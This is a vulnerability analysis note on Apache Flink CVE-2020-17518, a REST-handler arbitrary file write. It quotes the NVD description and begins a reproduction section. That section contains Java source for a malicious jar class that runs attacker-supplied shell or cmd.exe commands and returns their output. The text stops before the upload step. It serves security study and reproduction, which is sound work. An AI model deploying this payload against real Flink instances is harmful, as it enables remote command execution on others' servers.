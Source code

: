 ![Untitled](Apache%20Flink%20%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%207d976a56676d4f50a5cb19ea74e8f299/Untitled%201.png)

# Vulnerability

## CVE-2020-17518

### Vulnerability Description

[NVD - CVE-2020-17518](https://nvd.nist.gov/vuln/detail/CVE-2020-17518)

```
Apache Flink 1.5.1 introduced a REST handler that allows you to write an uploaded file to an arbitrary location on the local file system, through a maliciously modified HTTP HEADER. The files can be written to any location accessible by Flink 1.5.1. All users should upgrade to Flink 1.11.3 or 1.12.0 if their Flink instance(s) are exposed. The issue was fixed in commit a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4 from apache/flink:master.
```

### Vulnerability recurs

- Write malicious classes and compile them into `jar` package.

```java
import java.io.InputStream;
import java.util.Scanner;

public class Execute {
    public static void main(String[] args) throws Exception {
    	String cmd = args[0];
        try {
            if (cmd != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? "\n" + scanner.next() : "";
                throw new Exception((output));
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
